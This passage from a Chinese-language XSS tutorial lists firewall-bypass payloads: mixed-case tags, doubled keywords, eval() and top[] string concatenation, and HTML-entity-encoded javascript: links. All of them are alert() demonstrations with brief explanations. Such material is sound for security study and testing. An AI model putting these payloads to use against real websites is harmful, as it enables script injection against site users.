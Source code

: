 ### 大小写绕过

```js
<sCRiPt>alert(1);</sCrIpT>
<ImG sRc=x onerRor=alert(1);>
```

### 双写绕过

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```js
<scr<script>ipt> alert("xss") </scr</script>ipt>
<scrscriptipt>alert(1);</scrscriptipt>

<imimgg srsrcc=x onerror=alert(1);>
```

### 字符串拼接绕过

#### 利用eval()函数

与PHP的eval()函数相同，JavaScript的eval()函数也可以计算 JavaScript 字符串，并把它作为脚本代码来执行。

```js
<img src="x" onerror="a='aler';b='t';c='(1)';eval(a+b+c)">
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
// 在js中，我们可以用反引号代替单双引号
```

#### 利用top

```html
<script>top["al"+"ert"](`xss`);</script>
<script>top["al"+"ert"]("xss");</script>
```





## 字符编码绕过

### HTML 实体编码

HTML 编码主要分为10进制和16进制，格式为以 `&#` 开头以分号 `;` 结尾（也可以不带分号）。

- `<a href=javascript:alert("xss")>test</a>`

```html
// 十进制
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>test</a>

// 十六进制
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>

// 也可以不带分号
<a href=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x22&#x78&#x73&#x73&#x22&#x29>test</a>
```
